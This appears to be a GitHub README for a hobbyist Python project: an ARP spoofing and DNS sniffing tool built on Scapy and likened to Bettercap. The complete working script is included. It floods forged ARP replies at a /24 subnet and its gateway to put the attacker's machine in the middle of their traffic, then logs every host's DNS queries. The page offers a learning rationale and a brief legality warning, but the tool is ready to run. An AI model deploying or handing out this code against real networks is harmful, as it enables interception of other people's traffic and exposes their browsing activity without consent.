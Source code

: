 # 🐍 Packet Sniffing & Spoofing Tool in Python
This script is a simplified network spoofing tool built with **Python 3**, using the `scapy`, `logging`, and `threading` libraries.  
It simulates behavior similar to **Bettercap**, allowing for **ARP spoofing** and **DNS sniffing** across a local network.
---
## 📚 What I Learned

- How to manipulate network packets using Scapy.
- ARP spoofing logic and redirection.
- DNS query interception and extraction.
- Multithreading to run ARP spoofing alongside DNS sniffing.
- Real-world applications of network attacks for defensive security awareness.

---

## ⚙️ How It Works

1. **ARP Spoofing**: Sends fake ARP replies to trick the target and gateway into sending packets to the attacker’s machine.
2. **DNS Sniffing**: Captures UDP DNS requests (port 53) and prints the source IP and requested domain.

---

## 🧠 Example Output
### 📸 Demo Screenshots
<img width="414" alt="Screenshot 2025-04-24 at 12 24 56 AM" src="https://github.com/user-attachments/assets/9ef96607-abcf-474e-b7b5-d7b9c05d6875" />

---

## 🧵 Requirements

Install the required library with:

```bash
pip install scapy


### 🚧 Warning:
Use responsibly and only in legal, lab environments.

<details> <summary>Click to expand the Python code</summary>

import logging
from scapy.all import ARP , send , sniff
from scapy.layers.dns import DNS , DNSQR , IP 
import threading
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

def arp_spoof(target_ip , spoof_ip):
    packet = ARP(op=2, pdst=target_ip , hwdst= "ff:ff:ff:ff:ff:ff" , psrc=spoof_ip)
    send(packet , verbose = False)
    
def dns_packet(packet):
    if packet.haslayer(DNS) and packet.getlayer(DNS).qr == 0 :
        ip_src = packet [IP].src
        dns_query = packet[DNSQR].qname.decode()
        print (ip_src , dns_query)
    
def start_arp(target_ip, gateway_ip):
    while True:
        arp_spoof(target_ip, gateway_ip)
        arp_spoof (gateway_ip, target_ip)
    

target_ip = "192.168.1.0/24"
gateway_ip = "192.168.1.1"

threading.Thread(target=start_arp, args=(target_ip, gateway_ip)).start()

print ("[+] Network Trafffic : 2025 ")
print ("-"*40)
print (f"{'IP Address': <15} \t {'DNS Query' : <30}")
print ("-"*40)
sniff(filter="udp port 53" , prn=dns_packet, store=0)
</details>

👨‍💻 Author

Yanis Deriche — Cybersecurity & Network Security Enthusiast | Practical Labs + Projects | Open for Work

Connect with me on LinkedIn
Explore more of my work on GitHub

